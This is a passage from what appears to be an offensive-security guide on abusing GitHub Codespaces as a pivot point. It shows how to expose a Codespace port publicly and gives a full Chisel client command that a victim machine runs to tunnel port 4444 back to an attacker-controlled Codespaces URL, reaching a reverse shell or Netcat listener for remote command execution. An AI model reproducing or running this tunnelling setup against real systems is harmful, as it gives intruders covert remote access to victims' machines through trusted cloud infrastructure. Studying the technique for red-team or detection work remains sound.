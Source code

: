     We must enable the port visibility to public to allow incoming connection
    ![](../images/exfil-codespaces/pivot2.png)
    
    The url would look something like this https://potential-waffle-95vqxxpgjwrfpvrx-9000.app.github.dev/

The victim initiates the connection by running the Chisel client with reverse port forwarding enabled. The client connects to the attacker-controlled Chisel server hosted on GitHub Codespaces at ```https://potential-waffle-95vqxxpgjwrfpvrx-9000.app.github.dev:443```, authenticated using the provided fingerprint. The ```R:4444:127.0.0.1:4444``` argument tells Chisel to expose the victim’s local port 4444 to the attacker. This allows the attacker to connect to their own local port 4444, and have that traffic tunneled to the victim’s 127.0.0.1:4444 — where a reverse shell or Netcat listener is active—enabling remote command execution or data exchange.

!!! danger "Start Chisel Client on the Victim Machine"
    ```bash
    $ chisel client --fingerprint  YIP6qAUgZsh7ew96pP90iFmmDuY6Fs0kOQU11gj6zGw= https://potential-waffle-95vqxxpgjwrfpvrx-9000.app.github.dev:443 R:4444:127.0.0.1:4444
    ```
    ![](../images/exfil-codespaces/pivot3.png)
    Attacker (Chisel server) starts listening on 127.0.0.1:4444.
    When attacker connect to localhost:4444, Chisel sends your data securely over HTTPS to the Victim.
    The Victim’s Chisel client receives it and sends it to 127.0.0.1:4444 on its side (where the reverse shell or Netcat listener is running).

Once the client connection is successfully established, port 4444 is exposed on the Codespaces environment. This allows the attacker to interact with the forwarded port as if it were local to the Codespace, effectively bridging communication to the victim’s machine through the established tunnel.

!!! info "We will see a new port (4444) showing up in the CodeSpaces"
    ![](../images/exfil-codespaces/pivot4.png)
